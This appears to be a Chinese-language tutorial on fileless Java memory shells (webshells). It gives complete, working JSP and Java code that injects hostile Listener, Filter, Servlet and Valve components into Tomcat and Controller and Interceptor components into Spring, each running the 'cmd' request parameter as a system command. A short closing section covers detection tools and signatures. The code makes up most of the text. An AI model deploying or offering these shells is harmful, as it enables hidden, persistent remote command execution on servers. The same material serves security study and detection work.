

## 1、JAVA内存马

又称“无文件马”，特点是无文件落地，存在于内存中，隐蔽性强。按照实现原理分：

* 利用`Java Web`组件：动态添加恶意组件，如`Servlet`、`Filter`、`Listener`等，在Spring框架下就是`Controller`、`Intercepter`
* 修改字节码：利用Java的`Instrument`机制，动态注入`Agent`，在Java内存中动态修改字节码，在HTTP请求执行路径中的类添加恶意代码，实现根据请求的参数执行任意代码

## 2、Tomcat内存马

### 2.1 Listener型

在服务器中动态注入一个恶意的Listener，分为三种：

* ServletContextListener
* HttpSessionListener
* ServletRequestListener：最适合作内存马，因为是监听`ServletRequest`对象，当访问任意资源时，都会触发`ServletRequestListener#requestInitalized()`方法

实现步骤：

1. 获取`StandardContext`上下文
2. 实现恶意`Listener`
3. 通过`StandardContext#addApplicationEventListener`方法添加恶意`Listener`

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
 
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
           String cmd = request.getParameter("cmd");
           if (cmd != null) {
               try {
                   Runtime.getRuntime().exec(cmd);
               } catch (IOException e) {
                   e.printStackTrace();
               } catch (NullPointerException n) {
                   n.printStackTrace();
               }
            }
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
 
    Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```


### 2.2 Filter型

在Servlet容器中，Filter调用通过FilterChain实现

1. 获取`StandardContext`对象
2. 创建恶意`Filter`
3. 使用`FilterDef`对`Filter`进行封装，并添加必要的属性
4. 创建`filterMap`类，并将路径和`Filtername`绑定，然后将其添加到`filterMaps`中
5. 使用`ApplicationFilterConfig`封装`filterDef`，然后将其添加到`filterConfigs`中

```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
 
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
 
<%! public class Shell_Filter implements Filter {
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    e.printStackTrace();
                } catch (NullPointerException n) {
                    n.printStackTrace();
                }
            }
            chain.doFilter(request, response);
        }
    }
%>
 
<%
    Shell_Filter filter = new Shell_Filter();
    String name = "CommonFilter";
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);
 
 
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);
 
 
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
 
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```


### 2.3 Servlet型

1. 获取`StandardContext`对象
2. 编写恶意`Servlet`
3. 通过`StandardContext.createWrapper()`创建`StandardWrapper`对象
4. 设置`StandardWrapper`对象的`loadOnStartup`属性值
5. 设置`StandardWrapper`对象的`ServletName`属性值
6. 设置`StandardWrapper`对象的`ServletClass`属性值
7. 将`StandardWrapper`对象添加进`StandardContext`对象的`children`属性中
8. 通过`StandardContext.addServletMappingDecoded()`添加对应的路径映射

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
 
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
 
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
 
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

### 2.4 Valve型

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Pipeline" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
 
    Pipeline pipeline = standardContext.getPipeline();
%>
 
<%!
    class Shell_Valve extends ValveBase {
 
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
    }
%>
 
<%
    Shell_Valve shell_valve = new Shell_Valve();
    pipeline.addValve(shell_valve);
%>
```


## 3、Spring内存马

### 3.1 Controller型

```java
package com.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Method;

@Controller
public class shell_controller {

    //@ResponseBody
    @RequestMapping("/control")
    public void Spring_Controller() throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException {

        //获取当前上下文环境
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        //手动注册Controller
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Controller_Shell.class.getDeclaredMethod("shell");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        r.registerMapping(info, new Controller_Shell(), method);

    }

    public class Controller_Shell{

        public Controller_Shell(){}

        public void shell() throws IOException {

            //获取request
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
    }

}
```

### 3.2 Interceptor型

```java
package com.shell.controller;
 
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import org.springframework.web.servlet.support.RequestContextUtils;
 
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
 
@Controller
public class Inject_Shell_Interceptor_Controller {
 
    @ResponseBody
    @RequestMapping("/inject")
    public void Inject() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
 
        //获取上下文环境
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
 
        //获取adaptedInterceptors属性值
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
 
 
        //将恶意Interceptor添加入adaptedInterceptors
        Shell_Interceptor shell_interceptor = new Shell_Interceptor();
        adaptedInterceptors.add(shell_interceptor);
    }
 
    public class Shell_Interceptor implements HandlerInterceptor{
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    e.printStackTrace();
                } catch (NullPointerException n) {
                    n.printStackTrace();
                }
                return true;
            }
            return false;
        }
    }
}
```


## 4、Java Agent内存马

`Java Agent`是一种能在不影响正常编译的前提下，修改`Java`字节码，进而动态地修改已加载或未加载的类、属性和方法的技术。 常见的技术如热部署、一些诊断工具等都是基于`Java Agent`技术来实现的。

那么`Java Agent`技术具体是怎样实现的呢？ 对于`Agent`（代理）来讲，其大致可以分为两种，一种是在`JVM`启动前加载的`premain-Agent`，另一种是`JVM`启动之后加载的`agentmain-Agent`。这里我们可以将其理解成一种特殊的`Interceptor`（拦截器）




## 5、内存马检测与排查

* **arthas**: 阿里巴巴开源的java诊断工具，对jvm进程分析，反编译指定类查看源码

* 检查服务器web日志返回200的URL路径对比web目录下是否存在文件

* 内存马特征识别：java.lang.Runtime.getRuntime`，`defineClass`，`invoke等恶意代码

  